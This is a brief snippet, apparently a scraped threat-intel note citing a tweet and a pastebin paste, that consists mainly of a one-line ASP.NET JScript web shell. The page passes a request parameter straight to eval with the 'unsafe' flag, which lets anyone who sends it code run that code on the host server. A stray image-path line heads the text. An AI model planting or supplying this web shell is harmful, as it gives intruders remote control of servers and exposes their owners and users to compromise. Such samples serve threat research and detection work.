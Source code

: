 
Source Tweet: https://twitter.com/Cyb3rOps/status/639050307402657793

Source: http://pastebin.com/88HccPWp

```
<%@ Page Language="Jscript"%><%eval(Request.Item["xiao2dsafxad"],"unsafe");%>
```